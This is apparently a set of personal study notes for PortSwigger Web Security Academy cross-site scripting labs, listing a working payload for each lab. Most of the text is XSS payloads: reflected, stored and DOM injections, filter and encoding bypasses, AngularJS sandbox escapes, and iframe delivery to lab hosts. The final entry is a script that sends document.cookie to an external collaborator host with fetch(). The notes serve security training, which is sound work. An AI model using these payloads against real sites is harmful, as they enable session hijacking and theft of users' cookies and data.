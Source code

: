 # DOM-Based XSS  Cross-site scripting

https://portswigger.net/web-security/all-labs#cross-site-scripting


### LAB: Reflected XSS into HTML context with nothing encoded

```
Enter the following into the search box: 
Payload : '</h1><script>alert(1)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded
```
Enter the following into the comment box: 
 - Payload: comment=<script>alert(2)</script>
```



### Lab: DOM XSS in document.write sink using source location.search

A website takes something from the URL (like a search term),
And then shows it on the page using JavaScript,Without checking if it's safe.

✅ Two Important Parts:

1. Source – Where the user input comes from
   Example: location.search → This gives the part after ? in the URL.
   For example:
```
   https://example.com/page?name=hello
   location.search → "?name=hello"
```

2. Sink – Where the data is used/executed.
   Example: document.write() → This writes HTML to the page.
   If we use it directly with location.search, it can be dangerous.



Payload  : 
```
- ABC"><img src="a" onerror=alert(1)>
- ABC"><svg onload=alert(1)>
```



### Lab: DOM XSS in innerHTML sink using source location.search

Note : innerHTML we cannot insert any script tag.

Payload  : 
```
- <img src="a" onerror=alert(1)>
```


### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

Payload :
<a href="javascript:alert(document.cookie)">Click me</a>

```
javascript:alert(document.cookie)
```

### Lab: DOM XSS in jQuery selector sink using a hashchange event

```
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
        });
</script>
```
Payload :

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded


when you're dealing with XSS (Cross-Site Scripting) and < or other tag-related characters (<, >) are filtered or encoded, you need to rely on tag-less or attribute-based payloads that don't require <script> or <img> tags to execute.

<a href="https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Payload/tagless_xss_payloads.txt">Tagless PAyloads</a>

```
" onmouseover="alert(1)
```

### LAB: Reflected XSS into a JavaScript string with angle brackets HTML encoded

When you’re dealing with Reflected XSS into a JavaScript string, and angle brackets < > are HTML-encoded or filtered, you can still exploit XSS without any HTML tags.

```
";alert(1);//         // closes quote and runs JS
'+alert(1)+'         // using concatenation
'-alert(1)-'         // works too
"/1/+alert(1)//      // division with alert
"/a/+alert(1)//      // forces type coercion
"+alert(1)+""        // string concat, safe from HTML filter
"+alert(String.fromCharCode(88,83,83))+"
```


### LAB: DOM XSS in document.write sink using source location.search inside a select element

payload:
```
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```

### LAB:  DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
$scope
$watch $ON $eval $emit $apply $digest
payload:
```
{{$on.constructor('alert(1)')()}}
{{$watch.constructor('alert(1)')()}}
```


### LAB: Reflected DOM XSS
payload:
```
\"-alert(1)}//
\"+alert(1)}//
\"&alert(1)}//
\"|alert(1)}//
```

### Lab: Stored DOM XSS
payload:
```
<><img src=1 onerror=alert(1)>
```


### Reflected XSS into HTML context with most tags and attributes blocked

<iframe src="https:///0af8005f03c81c828041176b003b001f.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'>



### Reflected XSS into HTML context with all tags blocked except custom ones

```
<robin onclick=alert(document.cookie)>
<robin onclick=alert(1)>

<script>
location = 'https://0a5400970474591680c31759002a0079.web-security-academy.net/?search=<robin id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

### Lab: Reflected XSS with some SVG markup allowed
```
<svg id=x onbegin=alert(1)>
<svg><animatetransform onbegin=alert(1)>   
```
### LAB:  Reflected XSS in canonical link tag
```
In URL add at end : 
/?'accesskey='x'onclick='alert(1)
```


### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
```
</script><script>alert(1)</script>

```

### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
```
\'-alert(1)//
\'+alert(1)//
```

### Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
```
http://robin.com/?&apos;-alert(1)-&apos;
http://robin.com/?&#39;+alert(1)+&#39;
http://robin.com/?&#x27;+alert(1)+&#x27;

```
### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
${alert(1)}
```

### Lab: Exploiting cross-site scripting to steal cookies
m0nv6rd5ltolzbtmrjxa6vvz1q7hv7jw.oastify.com

payload
```
<script>
fetch('https://m0nv6rd5ltolzbtmrjxa6vvz1q7hv7jw.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
